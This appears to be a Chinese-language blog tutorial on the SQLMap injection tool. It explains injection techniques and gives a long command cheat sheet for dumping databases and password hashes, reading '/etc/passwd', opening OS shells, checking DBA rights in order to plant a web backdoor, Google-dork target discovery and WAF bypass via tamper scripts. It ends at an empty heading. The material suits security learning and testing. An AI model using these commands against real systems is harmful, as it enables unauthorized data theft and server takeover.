

---

title: SQLMap详细讲解
description: SQLMap是一个自动化的SQL注入工具，其主要功能是扫描、发现并利用给定URL的SQL注入漏洞。
pubDate: 2025 08 05 16:20
draft: false
categories:
  - 网络安全
tags:
- SQLMap
- sql
- python
- 脚本工具
- Kaku
---

# SQLMap介绍

SQLMap是一个自动化的SQL注入工具，其主要功能是扫描、发现并利用给定URL的SQL注入漏洞。SQLMap内置了很多绕过插件，支持的数据库是MySQL、Oracle、PostgreSQL、Microsoft SQL Server、Microsoft Access、IBM DB2、SQLite、Firebird、Sybase和SAP MaxDB。SQLMap采用了以下五种独特的SQL注入技术。

1. 基于布尔类型的盲注，即可以根据返回页面判断条件真假的注入。
2. 基于时间的盲注，即不能根据页面返回的内容判断任何信息，要通过条件语句查看时间延迟语句是否已执行（即页面返回时间是否增加)来判断。
3. 基于报错注入，即页面会返回错误信息，或者把注入的语句的结果直接返回页面中。
4. 联合查询注入，在可以使用Union的情况下的注入。
5. 堆查询注入，可以同时执行多条语句的注入。

SQLMap的强大功能包括数据库指纹识别、数据库枚举、数据提取、访问目标文件系统，并在获取完全的操作权限时执行任意命令。SQLMap的功能强大到让人惊叹，当常规的注入工具不能利用SQL注入漏洞进行注入时，使用SQLMap会有意想不到的效果。

##SQLMap目录结构

- **doc** 目录：包含 sqlmap的简要说明,具体使用说明、作者信息等。
- **extra** 目录：包含了 sqlmap的额外功能,例如发出声响、运行cmd、安全执行等。例如-beep参数。
- **lib** 目录：sqlmap核心目录。

- **plugins** 目录：包含了 sqlmap目前支持的25种数据库信息和数据库通用事项。
- **tamper** 目录：这里包含了各种辅助脚本，比如常见的waf绕过脚本。
- **thirdparty** 目录：包含了第三方插件，例如优化、保持连接、颜色。
- **data** 目录：
  - **procs** 目录：包含了 mssql、 mysql、 oracle、 postgresql的触发程序。
  - **shell** 目录：包含了注入成功后的8种shell远程命令执行。
  - **txt** 目录：包含了表名字典，列名字典，UA字典等。
  - **udf** 目录：涉及UDF提权相关的文件。
  - **xml** 目录：存放多种数据库注入检测的 payload等信息。

## 常用操作

### 检测注入点

```shell
python sqlmap -u 'http://xx/?id=1'
```

### 查看所有数据库

```shell
python sqlmap -u 'http://xx/?id=1' --dbs
```

### 查看当前使用的数据库

```shell
python sqlmap -u 'http://xx/?id=1' --current-db
```

### 查看数据表

```shell
python sqlmap -u 'http://xx/?id=1' -D 'security' --tables
```

### 查看数据

```shell
python sqlmap -u 'http://xx/?id=1' -D 'security' -T 'users' -C 'user,passwd' --dump
```

### 获取当前连接数据库的用户名    

```shell
python sqlmap.py -u  'http://xx/?id=1' --current-user
```

### sqlmap历史记录

```shell
windows：C:\Userstest\AppData\Local\sqlmap
Linux：/home/test/.sqlmap or /root/.sqlmap
```

### 清除缓存进行注入 (删除sqlmap的output文件夹也可清楚缓存)

```shell
python sqlmap.py -u  'http://xx/?id=1' --purge
```

### 刷新目标的存储在sqlmap的session文件-清缓存

```shell
python sqlmap.py -u  'http://xx/?id=1' --flush-session
```

### 自动填充选择Y，跳过询问

```shell
python sqlmap.py -u [url] --batch
```

### 指定文件（批量检查url）

文件中一行一个url

```shell
python sqlmap -m urls.txt
```

### post请求

检测post请求的注入点，使用BP等工具抓包，将http请求内容保存到txt文件中。

`-r` 指定需要检测的文件，SQLmap会通过post请求方式检测目标。

```shell
python sqlmap.py -u 'http://xx?id=x' --data "uname=admin&passwd=admin"
# 1.txt是抓取的POST请求头文件，可用 -p 指定参数注入位置，如下命令指定uname为参数
python sqlmap.py -r 1.txt -p uname
# 1.txt是抓取的POST请求头文件，可在文件中用*标记注入位置，例如uname=admin*&passwd=admin，标记uname为注入位置
python sqlmap.py -r 1.txt  
```

### cookie注入

```shell
# 说明:当需要对cookie注入的时候,必须使用--cookie选项 
# 因为post的数据长度为0,但是又想使用post方法进行注入,则使用--data "",使用--data选项后, sqlmap自动使用post方法。
# 注意:
# 1. sqlmap不支持使用--method指定http请求的方法
# 2. 默认不扫cookie的内容，必须是level大于等于2才能扫cookie里的内容
# 3. cookie默认的分隔符为";"
python sqlmap.py -u [url] --cookie="SESSIONID=xxxx;NAME=ichunqiu;" --level 2 --data ""
```

### 测试注入点权限

```shell
python sqlmap.py -u [url] --privileges          //测试所有用户的权限
python sqlmap.py -u [url] --privileges -U sa    //测试sa用户的权限
python sqlmap.py -u [url] --roles               //测试所有用户的权限
# 说明：当前用户有读取包含了数据库管理系统中用户信息的系统表的权限时使用这一参数可以列举数据库管理系统中用户的权限。
#      通过用户权限可以判断哪些用户是管理员
#	   注意：若目标是MSSql数据库，这一参数会列出每个用户是否是管理员而不列出每个用户的具体权限。
```

### **利用注入注入点执行Shell命令** 

```shell
python sqlmap.py -u [url] --os-cmd="net user"   // windows系统执行net user命令
python sqlmap.py -u [url] --os-shell            // linux系统交互式shell
# 危害：用-os-shell命令可以模拟一个真实的shell，可以使用 INTO OUTFILE写进可写目录，创建一个web后门。
# 注意：1.需要有权限使用特定函数 2.数据库为mysql、postgresql和sqlserver
```

### 枚举数据库的用户名和密码

```shell
python sqlmap.py -u [url] --users --passwords
```

### 控制sqlmap的输出信息

```shell
#从简到繁,从0-6共分为7个级别,默认的输出级别为1
# 0:只显示 python的回溯、错误和关键信息
# 1:显示信息和警告消息
# 2:显示调试信息
# 3:显示注入使用的攻击载荷
# 4:显示HTTP请求
# 5:显示HTTP响应头
# 6:显示HTTP相应页面的内容
python sqlmap.py -u [url] -v 3
```

### 探测等级 --level

```shell
# SqlMap一共有5个探测等级,默认是1，使用的Payload可以在xml/payloads.xml看到，也可以根据相应格式自定义payload
# level1：对GET和POST的数据进行测试
# level2：会对 Http cookie进行测试
# level3：会对 Http User-agent/ Referer头进行测试
# level4-5：测试的更加全面,同时测试的速度会更慢
#注意：在不确定哪个Payload或参数为注入点时，为了保证全面性，建议使用高的level值
python sqlmap.py -u [url] --level 3
```

### 判断当前用户是否为管理员权限

```shell
#说明：该命令用于査看当前账户是否为数据库管理员账户。
# 这个命令有时候决定了你是否可以在服务器下进行写的操作,是否有写的权限,代表你是否可以在服务器上面写入一句话木马
# 结果：如果是管理员会返回Ture，否则返回 False
python sqlmap.py -u [url] --is-dba

```

### 指定User-Agent

```shell
# 说明：参数"--user-agent" 可以指定一个User-Agent值。
#      参数"--random-agent", Sqlmap会从文件./txt/user-agents.txt中随机地取一个User-Agent
# 注意:
# 1. 在一次会话中只有使用同一个User-Agent,并不是每发一个HTTP请求包,都随机一个User-Agent。
# 2. 必须是level大于等于3才会尝试对User-Agent注入
python sqlmap.py -u [url] --user-agent="Mozilla/5.0" --level 3        //指定UA头
python sqlmap.py -u [url] --random-agent --level 3                    //从txt字典内随机指定UA头
```

### 指定 Referer

```shell
# 说明：可以在请求中伪造HTTP中的referer，Sqlmap发送的HTTP请求头部默认无Referer字段。
# 注意：必须是level大于等于3才会尝试对referer注入
python sqlmap.py -u [url] --referer "http://www.baidu.com"  //指定referer

```

### 指定代理

```shell
python sqlmap.py -u [url] --proxy=http://127.0.0.1:8080 
```

### 指定发包间隔时间为5s

```shell
python sqlmap.py -u url --delay 5 
```

### 指定线程数

```shell
python sqlmap.py -u [url] --threads 3 
```

### 从数据库服务器读取文件

```shell
python sqlmap.py -u [url] --file-read "/etc/passwd" 
```


## 进阶参数

```shell
# --prefix 加前缀  --suffix 加后缀
python sqlmap.py -u [url] --prefix=" -- " --suffix=")"

# 指定注入模式 T-time/U-union/E-error/B-bool
python sqlmap.py -u [url] --technique T/U/E/B 

# 使用时间盲注指定延时时间为5s
python sqlmap.py -u [url] --technique T --time-sec 5 

# 使用googledork(google hacking语法)
python sqlmap.py -g inurl:.php?id=

# 指定数据库类型
python sqlmap.py -u [url] --dbms=mysql 

# 使用更多的语句测试url是否存在注入 1-3，3个等级
python sqlmap.py -u [url] --risk 2

# 通过sql注入漏洞获取数据所有信息 包括库名 dba 用户 密码等
python sqlmap.py -u [url] -a 

# 获取数据库banner信息
python sqlmap.py -u [url] -b 

# dump转存所有数据库内的数据
python sqlmap.py -u [url] --dump-all

# 获取一个外带shell，需要第三方模块支持
python sqlmap.py -u [url] --os-pwn 

# 给予用户接口让其手动选择
python sqlmap.py -u [url] --wizard


```

# waf绕过
`--tamper` 指定绕过脚本，绕过WAF或ids等。

```shell
sqlmap -u [url] --tamper 'space2comment.py'
```

SQLmap内置了很多绕过脚本，在 /sqlmap/tamper/ 目录下：

